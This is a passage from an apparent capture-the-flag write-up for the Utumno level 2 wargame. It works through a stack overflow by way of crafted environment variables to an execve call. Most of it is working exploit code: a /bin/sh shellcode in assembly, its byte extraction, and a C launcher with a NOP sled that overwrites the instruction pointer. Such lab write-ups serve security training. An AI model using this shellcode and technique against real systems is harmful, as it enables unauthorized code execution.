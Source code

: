 See the **SIGSEGV** *si_addr* address ? We need **24** bytes to overwrite the EIP ! However, we don't have enough space for a shellcode but we could use another environment variable to store it and jump to the shellcode !

```c
#include <unistd.h>

void main() {
    char *envp[] = {"", "", "", "", "", "", "", "", "",
        "AAAABBBBCCCCDDDDEEEE",
        NULL};
    execve("/utumno/utumno2", NULL, envp);
}
```

Now, let's write a quick **/bin/sh** shellcode:

```nasm
global _start

section .text
_start:
xor eax, eax
push eax
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
push eax
mov edx, esp
push ebx
mov ecx, esp
mov al, 0xb
int 0x80
```

Assemble it and extract the shellcode :

```bash
utumno2@utumno:/tmp/ax$ nasm -f elf32 shell.a
utumno2@utumno:/tmp/ax$ ld -m elf_i386 -s -o shell shell.o

objdump -d ./shell.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

Then, we modify our code :

```c
#include <unistd.h>

void main() {
    char *envp[] = {"", "", "", "", "", "", "", "", 
        "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80",
        "AAAABBBBCCCCDDDDEEEE",
        NULL};
    execve("/utumno/utumno2", NULL, envp);
}
```
